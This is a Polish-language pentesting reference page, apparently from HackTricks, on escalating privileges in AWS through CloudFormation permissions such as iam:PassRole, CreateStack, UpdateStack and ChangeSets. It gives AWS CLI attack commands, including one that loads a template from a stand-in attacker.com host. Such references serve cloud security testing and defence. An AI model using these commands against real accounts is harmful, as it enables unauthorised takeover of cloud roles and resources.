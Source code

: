 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

Aby uzyskać więcej informacji na temat cloudformation, sprawdź:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

Napastnik z tymi uprawnieniami **może eskalować uprawnienia** poprzez stworzenie **stosu CloudFormation** z niestandardowym szablonem, hostowanym na ich serwerze, aby **wykonywać działania w ramach uprawnień określonej roli:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na poniższej stronie masz **przykład eksploatacji** z dodatkowym uprawnieniem **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Potencjalny wpływ:** Privesc do roli serwisowej cloudformation.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

W tym przypadku możesz **nadużyć istniejącego stosu cloudformation**, aby go zaktualizować i eskalować uprawnienia, jak w poprzednim scenariuszu:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation określonej.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Jeśli masz to uprawnienie, ale **brak `iam:PassRole`**, nadal możesz **aktualizować stosy** używane i nadużywać **ról IAM, które już mają przypisane**. Sprawdź poprzednią sekcję w celu uzyskania przykładu wykorzystania (po prostu nie wskazuj żadnej roli w aktualizacji).

Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnienia `UpdateStack`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do roli usługi cloudformation już przypisanej.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Atakujący z uprawnieniami do **przekazywania roli oraz tworzenia i wykonywania ChangeSet** może **tworzyć/aktualizować nowy stos cloudformation, nadużywając ról usługi cloudformation** tak jak w przypadku CreateStack lub UpdateStack.

Poniższe wykorzystanie jest **wariacją**[ **CreateStack**](./#iam-passrole-cloudformation-createstack) wykorzystującą **uprawnienia ChangeSet** do stworzenia stosu.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **przyznania sobie uprawnień `ChangeSet`** nad stosem i przeprowadzenia ataku.

**Potencjalny wpływ:** Privesc do ról serwisowych cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

To jest jak poprzednia metoda, ale bez przekazywania **ról IAM**, więc możesz po prostu **wykorzystać już przypisane**, wystarczy zmodyfikować parametr:
```
--change-set-type UPDATE
```
**Potencjalny wpływ:** Privesc do roli usługi cloudformation, która jest już dołączona.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Napastnik mógłby nadużyć tych uprawnień, aby tworzyć/aktualizować StackSets w celu nadużycia dowolnych ról cloudformation.

**Potencjalny wpływ:** Privesc do ról usługi cloudformation.

### `cloudformation:UpdateStackSet`

Napastnik mógłby nadużyć tego uprawnienia bez uprawnienia passRole, aby aktualizować StackSets w celu nadużycia dołączonych ról cloudformation.

**Potencjalny wpływ:** Privesc do dołączonych ról cloudformation.

## Odniesienia

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
